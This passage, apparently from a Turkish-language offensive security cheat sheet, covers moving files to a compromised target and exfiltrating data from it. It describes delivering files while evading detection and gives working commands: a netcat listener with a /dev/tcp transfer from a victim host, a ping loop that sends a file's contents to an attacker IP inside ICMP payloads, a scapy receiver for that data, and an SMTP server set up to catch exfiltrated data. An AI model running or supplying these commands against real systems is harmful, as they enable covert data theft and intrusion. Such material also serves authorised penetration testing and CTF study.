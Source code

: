 4. **Yükleme yöntemi seçme**: Dosyanızı hedef sisteme yüklemek için uygun bir yöntem seçin. Örneğin, e-posta ekleri, USB bellekler veya ağ üzerinden dosya transferi gibi yöntemler kullanabilirsiniz.

5. **Yükleme işlemi**: Seçtiğiniz yöntemi kullanarak dosyanızı hedef sisteme yükleyin. Bu işlem sırasında dikkatli olun ve tespit edilmemek için gerekli önlemleri alın.

Dosyanızı hedef sisteme başarıyla yükledikten sonra, istediğiniz amaç için kullanabilirsiniz. Örneğin, hedef sistemi ele geçirmek, bilgileri çalmak veya başka bir saldırı gerçekleştirmek gibi.
```bash
nc -w5 -lvnp 80 < file_to_send.txt # Inside attacker
# Inside victim
exec 6< /dev/tcp/10.10.10.10/4444
cat <&6 > file.txt
```
## **ICMP**

ICMP (Internet Control Message Protocol), internet kontrol mesajı protokolü olarak bilinen bir ağ protokolüdür. ICMP, IP ağlarında hata mesajlarını ve operasyonel bilgileri iletmek için kullanılır. ICMP, ağ cihazları arasında iletişim sağlamak ve ağ durumunu izlemek için kullanılır.

ICMP, ağ üzerindeki hedef cihazın durumunu kontrol etmek için kullanılabilir. Bu, hedef cihazın erişilebilir olup olmadığını ve ağa bağlı olup olmadığını belirlemek için kullanışlı bir tekniktir.

ICMP ayrıca, ağ üzerindeki hataları tespit etmek ve raporlamak için kullanılır. Örneğin, bir paketin hedefe ulaşamaması durumunda, ICMP hata mesajları göndererek bu durumu bildirebilir.

ICMP ayrıca, ağ üzerindeki performans sorunlarını tespit etmek için kullanılabilir. Ping komutu, ICMP protokolünü kullanarak hedef cihaza bir paket gönderir ve hedef cihazın bu paketi alıp almadığını kontrol eder. Bu, ağ üzerindeki gecikme süresini ve paket kaybını ölçmek için kullanışlı bir tekniktir.

ICMP, ağ üzerindeki bilgileri exfiltrate etmek için kullanılabilecek bir tekniktir. Örneğin, bir saldırgan, hedef cihazdan ICMP paketleri göndererek hassas verileri ağ üzerinden çalabilir. Bu nedenle, ağ güvenliği açısından ICMP trafiği izlenmeli ve gerektiğinde engellenmelidir.
```bash
# To exfiltrate the content of a file via pings you can do:
xxd -p -c 4 /path/file/exfil | while read line; do ping -c 1 -p $line <IP attacker>; done
#This will 4bytes per ping packet (you could probably increase this until 16)
```

```python
from scapy.all import *
#This is ippsec receiver created in the HTB machine Mischief
def process_packet(pkt):
if pkt.haslayer(ICMP):
if pkt[ICMP].type == 0:
data = pkt[ICMP].load[-4:] #Read the 4bytes interesting
print(f"{data.decode('utf-8')}", flush=True, end="")

sniff(iface="tun0", prn=process_packet)
```
## **SMTP**

Eğer bir SMTP sunucusuna veri gönderebiliyorsanız, Python ile veriyi almak için bir SMTP oluşturabilirsiniz:
```bash
sudo python -m smtpd -n -c DebuggingServer :25
```
## TFTP
